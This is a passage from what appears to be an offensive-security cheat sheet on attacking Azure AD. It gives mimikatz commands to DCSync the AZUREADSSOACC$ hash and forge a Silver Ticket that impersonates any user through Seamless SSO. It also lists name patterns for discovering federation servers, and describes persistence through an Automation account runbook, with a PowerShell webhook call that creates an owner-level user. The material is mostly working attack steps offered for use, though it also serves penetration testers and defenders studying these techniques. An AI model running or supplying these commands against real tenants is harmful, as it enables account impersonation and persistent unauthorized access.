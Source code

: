 Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.

## Azure AD Connect - Seamless Single Sign On Silver Ticket

> Anyone who can edit properties of the AZUREADSSOACCS$ account can impersonate any user in Azure AD using Kerberos (if no MFA)

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`. 
    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:
    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.


## Azure AD - ADFS Federation Server ~Cloud Kerberos

Discover Federation Servers
* adfs
* auth
* fs
* okta
* ping
* sso
* sts

OWA Version Discovery : autodiscover.domain.com

## Azure AD - Persistence via Automation accounts

* Create a new Automation Account
    * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    * Sample runbook for this Blog located here – https://github.com/NetSPI/MicroBurst
    * Publish the runbook
    * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
    * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Eventually lose your access…
* Trigger the webhook with a post request to create the new user
    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BlogDemoUser";Password="Password123"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```
